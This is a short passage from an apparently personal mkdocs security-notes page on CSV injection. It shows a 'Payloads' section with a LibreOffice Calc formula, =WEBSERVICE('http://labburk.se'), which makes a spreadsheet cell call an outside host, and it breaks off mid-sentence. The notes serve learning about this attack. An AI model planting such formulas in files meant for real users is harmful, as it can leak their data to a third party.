

repository: gandhi-taha/security · page: attacking_web_applications/csv_injection/index.html · generator: mkdocs




## Payloads



## Libreoffice / Linux

In order to make a simple request through libreoffice Calc you can do this in a cell:

```
=WEBSERVICE("http://labburk.se")
```
To get this to execute on Libreoffice > 6 is quite a hassle. First the user mst o
